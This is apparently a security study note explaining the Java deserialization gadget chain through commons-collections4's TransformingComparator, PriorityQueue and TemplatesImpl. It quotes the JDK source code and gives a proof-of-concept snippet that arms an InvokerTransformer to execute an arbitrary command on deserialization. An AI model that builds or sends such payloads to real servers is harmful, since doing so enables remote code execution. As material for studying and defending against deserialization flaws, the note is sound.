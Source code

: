 
> [!NOTE] pre-requirements
> JDK <= 1.7
> commons-collections:commons-collections4:4.0

The `TransformingComparator` transforms the objects before comparison.
```java
public int compare(final I obj1, final I obj2) {
	final O value1 = this.transformer.transform(obj1);
	final O value2 = this.transformer.transform(obj2);
	return this.decorated.compare(value1, value2);
}
```
`PriorityQueue` can employ `TransformingComparator` to sort objects. In `readObject()` method:
```java
private void readObject(java.io.ObjectInputStream s)  
    throws java.io.IOException, ClassNotFoundException {
    ...
    heapify();
}

private void heapify() {  
    for (int i = (size >>> 1) - 1; i >= 0; i--)  
        siftDown(i, (E) queue[i]);  
}

private void siftDown(int k, E x) {  
    if (comparator != null)  
        siftDownUsingComparator(k, x);  
    else        siftDownComparable(k, x);  
}

private void siftDownUsingComparator(int k, E x) {  
    int half = size >>> 1;  
    while (k < half) {  
        ...
        if (right < size &&  
            comparator.compare((E) c, (E) queue[right]) > 0)  
            c = queue[child = right];  
        if (comparator.compare(x, (E) c) <= 0)  
            break;  
        ...
    }  
    ...  
}
```
Insert a `TemplatesImpl` object into priority queue and use an `InvokerTranformer` configured with `newTransformer` method to decorate the comparator. While deserialization the queue, the `newTransformer` method of `TemplatesImpl` is called and arbitrary code is executed.

Poc:
```java
final Object templates = Gadgets.createTemplatesImpl(command);  
// mock method name until armed  
final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);  
  
// create queue with numbers and basic comparator  
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));  
// stub data for replacement later  
queue.add(1);  
queue.add(1);  
  
// switch method called by comparator  
Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");  
```

[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)
